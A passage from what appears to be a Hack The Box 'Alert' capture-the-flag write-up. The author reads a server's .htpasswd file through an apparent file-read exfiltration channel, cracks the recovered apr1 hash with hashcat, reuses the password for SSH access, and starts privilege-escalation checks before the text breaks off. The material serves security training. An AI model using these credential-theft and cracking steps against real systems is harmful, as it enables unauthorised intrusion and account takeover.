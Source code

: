 ```
        Require valid-user
    </Directory>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

</pre>]
```

We have successfully accessed it and what is more we can see that `/var/www/statistics.alert.htb/.htpasswd` is being used as `AuthUserFile` for `statistics.alert.htb` vhost. Let's grab it.

```
┌──(magicrc㉿perun)-[~/attack/HTB Alert]
└─$ rcat /var/www/statistics.alert.htb/.htpasswd
```
```
[2025-03-22 06:53:41] IP: [10.129.231.188] | User-Agent: [Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/122.0.6261.111 Safari/537.36] | Data: [<pre>albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
</pre>]
```

We can see that it contains MD5 (apr1) hashed password for user `albert`, which we already know also exists in on the target system. Let's use `hashcat` to conduct dictionary attack.
```
┌──(magicrc㉿perun)-[~/attack/HTB Alert]
└─$ hashcat -m 1600 -a 0 --username --quiet 'albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/' /usr/share/wordlists/rockyou.txt
$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/:****************
```

We have our first credentials! We could use it to pass basic HTTP authentication for `http://statistics.alert.htb`, however before that let's quickly check (with use of SSH) if user `albert` is reusing this password to access target system.

```
┌──(magicrc㉿perun)-[~/attack/HTB Alert]
└─$ ssh albert@alert.htb
albert@alert.htb's password:
albert@alert:~$
```

It seems he does! We have just gained our foothold, let's grab user flag and elevate privilages.
```
albert@alert:~$ cat /home/albert/user.txt 
********************************
```

# Privilages escalation
After running standard checks we can see that there is additional service running on loopback interface.
```
albert@alert:~$ netstat -natup
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
```
